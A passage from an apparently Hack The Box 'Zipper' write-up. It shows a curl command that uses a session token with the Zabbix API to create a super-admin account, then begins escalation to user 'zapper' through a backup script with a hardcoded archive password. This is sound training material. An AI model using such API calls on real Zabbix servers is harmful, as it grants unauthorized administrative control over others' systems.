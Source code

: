 #### Create New Admin User

If all of that seems like too much work, I can just create my own user with the [user.create](https://www.zabbix.com/documentation/3.0/manual/api/reference/user/create) API. I’ll follow the example in the API docs, giving a passwd, alias, type 3 = super admin, and adding to the admins group 7:

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.create", "id":1, "auth":"5e0e2dc84136edbf2a03e1d8c04e95e6", "params":{"passwd": "fdx0", "usrgrps": [{"usrgrpid": "7"}], "alias": "0xdf", "type": "3"}}' | jq -c '.'
{"jsonrpc":"2.0","result":{"userids":["4"]},"id":1}

```

Now I can log in and have access to admin functions, and can get a shell as shown above:

![1550627004939](https://0xdfimages.gitlab.io/img/1550627004939.png)

#### Conclusion

There’s probably several more ways to use the API to enable GUI access. Another options that occurred to me you could change the password on the admin account. But I’ll leave that as an exercise for the reader.

## Privesc: zabbix –> zapper

With a shall as zabbix on Zipper, I can get into the zapper homedir and see user.txt, but I can’t access it yet:

```

zabbix@zipper:/home/zapper$ ls
user.txt  utils
zabbix@zipper:/home/zapper$ cat user.txt 
cat: user.txt: Permission denied

```

Inside the utils folders, there’s a backup script:

```

zabbix@zipper:/home/zapper/utils$ cat backup.sh
#!/bin/bash
#
# Quick script to backup all utilities in this folder to /backups
#
/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
echo $?

```

